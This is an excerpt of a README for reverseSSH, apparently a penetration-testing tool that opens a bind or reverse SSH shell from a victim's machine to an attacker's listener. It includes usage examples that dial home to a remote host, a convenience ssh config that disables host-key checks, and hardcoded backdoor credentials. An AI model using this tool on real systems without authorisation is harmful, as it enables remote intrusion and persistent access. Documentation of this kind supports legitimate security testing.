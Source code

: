 In the end it's plain ssh, so you could catch the remote port forwarding call coming from the victim's machine with your openssh daemon listening on port 22.
Just prepend `<USER>@` and provide the password once asked to do so.

For even more convenience, add the following to your `~/.ssh/config`, copy the [ssh private key](assets/id_reverse-ssh) to `~/.ssh/` and simply call `ssh target` or `sftp target` afterwards:

```
Host target
        Hostname 127.0.0.1
        Port 8888
        IdentityFile ~/.ssh/id_reverse-ssh
        IdentitiesOnly yes
        StrictHostKeyChecking no
        UserKnownHostsFile /dev/null
```

### Full usage

```
reverseSSH v1.3.1  Copyright (C) 2021  Ferdinor <ferdinor@mailbox.org>

Usage: reverse-ssh [options] [[<user>@]<target>]

Examples:
  Bind:
        reverse-ssh -l
        reverse-ssh -v -l -p 4444
  Reverse:
        reverse-ssh 192.168.0.1
        reverse-ssh kali@192.168.0.1
        reverse-ssh -p 31337 192.168.0.1
        reverse-ssh -v -b 0 kali@192.168.0.2

Options:
        -l, Start reverseSSH in listening mode (overrides reverse scenario)
        -p, Port at which reverseSSH is listening for incoming ssh connections (bind scenario)
                or where it tries to establish a ssh connection (reverse scenario) (default: 31337)
        -b, Reverse scenario only: bind to this port after dialling home (default: 8888)
        -i, Reverse scenario only: attempt to authenticate with this ssh private key when dialling home
                (similar to ssh's identity_file)
        -s, Shell to spawn for incoming connections, e.g. /bin/bash; (default: /bin/bash)
                for windows this can only be used to give a path to 'ssh-shellhost.exe' to
                enhance pre-Windows10 shells (e.g. '-s ssh-shellhost.exe' if in same directory)
        -N, Deny all incoming shell/exec/subsystem and local port forwarding requests
                (if only remote port forwarding is needed, e.g. when catching reverse connections)
        -v, Emit log output

<target>
        Optional target which enables the reverse scenario. Can be prepended with
        <user>@ to authenticate as a different user other than 'reverse' while dialling home

Credentials:
        Accepting all incoming connections from any user with either of the following:
         * Password "letmeinbrudipls"
         * PubKey   "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIKlbJwr+ueQ0gojy4QWr2sUWcNC/Y9eV9RdY3PLO7Bk/ Brudi"
```
